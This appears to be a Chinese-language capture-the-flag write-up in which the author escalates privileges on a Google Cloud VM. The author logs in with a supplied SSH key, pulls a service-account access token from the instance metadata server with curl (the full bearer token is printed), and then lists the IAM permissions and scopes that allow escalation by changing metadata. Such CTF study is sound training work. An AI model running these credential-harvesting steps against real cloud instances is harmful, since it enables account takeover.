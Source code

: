 附件提供一个 ssh 私钥，连上去即可，根据描述我们要提权到 root 用户

```bash
ssh -i id_rsa vaultuser@34.132.25.162
```

~~看到 crontab 有人定时改密码，直接 ssh 上去拿 flag~~ （bushi）

当前机器权限是低权限用户

```bash
> id
uid=1002(vaultuser) gid=1003(vaultuser) groups=1003(vaultuser)
```

确定是 gcloud

```bash
> curl --connect-timeout 2 metadata.google.internal

computeMetadata/
```

并可以直接请求元数据获取服务账号 token

```bash
> curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token?alt=json

{"access_token":"ya29.c.c0AY_VpZi7ff7XynqSqk42X8cltVlBcDoXucLfgv6sohsHSMYJOmPWXN6Cmhe-bjBeFC9v2iAs2iq-WajjMRUZ7PMFFoKW67SmO5Lwu-nARCYbwrC9mJIOyLUJz9cNdzbWwvgMAXEA78ynwBj-ZeaxjvR3qmohw8QqVMY-6yfMfzKIkNQVC0XSpqJpyRKxJPJmS2_8gHPcOD-y87KHQk08SOd5RygZiOKLAXmVWp9_Z12GSQxYugjTvXKaHxpGvDo5GxV26s92xrTPyeX_29dkPlicv8QjQGZK274D5HhO8swLsmTBRMYrKoXA7wKItRIS5I2lmjFgsQhiqn7s7VirFbLOosD_UpzuhjpLKYzWi1O2CVm9TYCCCV114KaKqfA7K6c2G397C6tgnbB312uagaBta7RciOpInI24U-aVl0YVib5felX-X_Y_Y5umszgbI9pFnhU_zQumBQ79vu_-ni2mnwmedRjV2j2d9RpmSW-MqXZ71yRi_sJ6de_gj2wr1BZF1IVenRdmg6zZ5_jjs87fqs2rRQZzsFan7Msc2JUSyX-QellJ7O1clJ6ca0IbMx9UM49V-uyV8-Of3cfBIjY4tikqbSb3gcioykfk8Sf9hW00Wt3wvX0d578W8i3deVq_uxkSw_ucSa8326um2uwW4y5cwJqFJZUi8t530c4ZSeXkI3c3qF7-YfdVcvybQJYmW_UM08i22orc7sYYy4ewuzIkuw_BI-BJ4BuzV1oulW_WoZSqxy-rnfxsf8-stYqYIUJOuZ4nBRWQVf3QUQoIkbju67XagY1mXugM0vVjyqqbFQQR_vRUV71aOW4McQnwdyIy4uJo3Rng8VsM4oSWgwfIhJfbB8Jvn8Yo_uSh8pZ5Vl6Qffre3g-erU-j6UyUmFd-OcWuswzUtij_im0M3FxX61jMzdSS1Op3BBW3lO9c9905Jx3wOMvlcdvwW9ukh8SurIWvQulx6tvhek5hdgxJjZ3xUZjdyclY2i-ufFWbu5q_w0w","expires_in":2087,"token_type":"Bearer"}
```

其实根据题目名称很明显让我们根据 metadata 去提权，[Tutorial on privilege escalation and post exploitation tactics in Google Cloud Platform environments (gitlab.com)](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/#modifying-the-metadata)，gitlab 博客文章写了关于修改 metadata 的利用条件

1. 使用默认服务账号，并 access scopes 为二者之一
    - Allow full access to all Cloud APIs
    - Set access for each API 然后允许访问 compute API
2. 使用自定义服务账号，IAM 权限设置为
    - compute.instances.setMetadata （影响单个实例）
    - compute.projects.setCommonInstanceMetadata（影响租户的所有实例）

并且自定义服务账号 access scopes 为下面二者之一就可以利用

- https://www.googleapis.com/auth/compute
- https://www.googleapis.com/auth/cloud-platform
